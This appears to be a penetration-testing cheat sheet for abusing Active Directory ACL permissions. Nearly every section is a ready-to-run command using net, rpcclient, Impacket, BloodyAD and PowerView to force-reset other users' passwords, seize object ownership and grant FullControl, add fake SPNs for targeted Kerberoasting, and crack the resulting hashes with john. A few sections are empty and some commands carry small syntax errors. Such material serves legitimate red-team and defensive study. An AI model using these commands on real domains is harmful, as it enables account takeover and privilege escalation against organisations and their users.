 # ACLs/ACEs permissions on User

### ForceChangePassword

#### 1) Net (Windows)

    net user TARGET_USER PASSWORD /domain (Windows)

#### 2) Net (Linux)

    net rpc password TARGET_USER PASSWORD -S DC_FQDN -U domain.local/USER1%'Password@1'
    
#### 3) Impacket

    impacket-changepasswd domain.local/TARGET_USER@DC_IP -newpass Password@1234 -altuser domain.local/USER1 -altpass Password@1 -reset

Impacket’s changepassword can also be used to change current user password, if current password is known.

    impacket-changepasswd domain.local/USER1@DC_IP -newpass ‘Password@987’ -p rpc-samr

### GenericAll / GenericWrite

#### 1) Windows net command

Change the password of a user

    net user USER PASSWORD /domain

#### 2) Linux Net RPC - Samba 

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP   

#### 3) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@9876"

#### 4) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 "Password@9876"

#### 5) Targeted Kerberoasting (add SPN)

    targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

#### 1) Enumerate interesting ACLs with powerview

    Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} 

#### Then:

    Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

    Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 6) Logon Script (Access)

#### 7) add Key Credentials (Shadow Credentials)

#### 8) Powerview

    $SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('domain.local\TARGET_USER', $SecPassword)

#### 9) Windows PowerShell

    $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### AllExtendedRights

#### 1) Linux Net RPC - Samba

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

#### 2) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 Ignite@987

#### 4) Powerview

    powershell -ep bypass
    Import-Module .\PowerView.ps1
    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### WriteOwner  /WriteDacl

#### 1) impacket-owneredit

Grant Ownership (owneredit), then assign Full Control (dacledit), then perform Kerberoasting or Password Change attacks (ForceChangePassword).

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

Then, you can do targeted Kerberoasting for example

    python3 targetedKerberoast.py --dc-ip 'DC_IP' -v -d 'domain.local' -u 'USER1' -p 'Password@1'

Crack hash

    john -w=/usr/share/wordlists/rockyou.txt hash

OR you can change the TARGET_USER's password

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Powerview

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'TARGET_USER' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET_USER" -PrincipalIdentity "USER1"

Now, do Kerberoast from a Windows Machine instead

    Set-DomainObject -Identity 'TARGET_USER' -Set @{serviceprincipalname='nonexistent/hacking'}
    Get-DomainUser 'TARGET_USER' | Select serviceprincipalname
    $User = Get-DomainUser 'TARGET_USER'
    $User | Get-DomainSPNTicket

OR change password

    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword
